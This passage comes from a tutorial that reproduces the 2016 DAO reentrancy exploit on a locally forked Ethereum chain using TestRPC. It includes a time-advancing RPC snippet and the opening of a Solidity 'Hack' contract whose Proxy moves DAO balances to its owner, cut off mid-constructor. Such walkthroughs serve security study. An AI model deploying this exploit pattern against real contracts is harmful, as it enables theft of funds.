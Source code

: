 Note that the `accounts` array is populated by our script, which used `web3.eth.getAccounts()` to get a list of all available accounts provided to us by the TestRPC. As well, we've pointed an instance of the DAO contract to the address [0xbb9bc244d798123fde783fcc1c72d3bb8c189413](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413) which is the original DAO account and code.

Again, for example's sake we're using some shorthand, so please follow along [with the script on github](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 3: Wait for the presale to end

Since we forked to a block that was mined the day before the presale ended, we have to jump forward in time by at least a few hours to get past the presale deadline. We decided to jump a day by calling a special method provided by the TestRPC, `evm_increaseTime`:

```javascript
web3.currentProvider.sendAsync({
  jsonrpc: "2.0",
  method: "evm_increaseTime",
  params: [86400],  // 86400 seconds in a day
  id: new Date().getTime()
}, callback);
```

This will tell the TestRPC to alter its timestamp by `86400` seconds. This feature allows you to write tests that have a time component, and in our case allows us to continue executing code after a deadline is reached.

### Step 4: Deploy our hack contract to the network

This hack contract was written by me, but it was heavily influenced by [this writeup](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) written by Phil Daian from [Hacking, Distributed](http://hackingdistributed.com/). Many thanks goes to the for such a clear writeup.

From Github: [./contracts/Hack.sol](https://github.com/tcoulter/dao-truffle/blob/master/contracts/Hack.sol)
```javascript
import "DAOInterface.sol";

contract Proxy {
  DAOInterface DAO;
  address owner;

  function Proxy(address _dao) {
    owner = msg.sender;
    DAO = DAOInterface(_dao);
  }

  function empty() {
    if (msg.sender != owner) return;

    uint balance = DAO.balanceOf(this);
    DAO.transfer(owner, balance);
  }
}

contract Hack {
  uint public proposalID;
  DAOInterface public DAO;
  uint public calls_to_make;
  uint public calls;
  Proxy public proxy;

  function Hack(address _dao) {
    DAO = DAOInterface(_dao);
    calls = 0;
    proxy = new Proxy(_dao);
```